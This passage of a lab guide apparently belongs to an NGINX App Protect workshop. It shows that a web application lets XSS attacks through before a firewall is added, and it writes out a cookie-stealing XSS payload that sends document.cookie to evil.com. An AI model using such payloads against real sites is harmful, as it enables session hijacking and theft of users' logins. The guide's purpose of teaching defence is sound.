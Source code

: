 
Is our application protected against Layer 7 attacks?
######################################################

In Lab1, we deployed and published the application, but is our application protected against web application attacks? Let's find out by executing a simple XSS attack. XSS is one of the well know OWASP top 10 attack.

From the Jumpbox, launch the Firefox browser and execute a XSS attack by appending the ?a=<script> to the end of application URL, you should see the request is allowed.

.. image:: ./pictures/image11.png
   :align: center

Execute another attack by appending ?item='><script>document.location='http://evil.com/steal'+document.cookie</script> to the application URL, this request is also allowed and a bad actor has successfully stealed your document cookie by luring you to his website.

.. image:: ./pictures/image12.png
   :align: center

Now that we know our application is vulnerable to Layer 7 attacks, we will address this in this Lab and protect our application using NGINX App Protect (NAP)

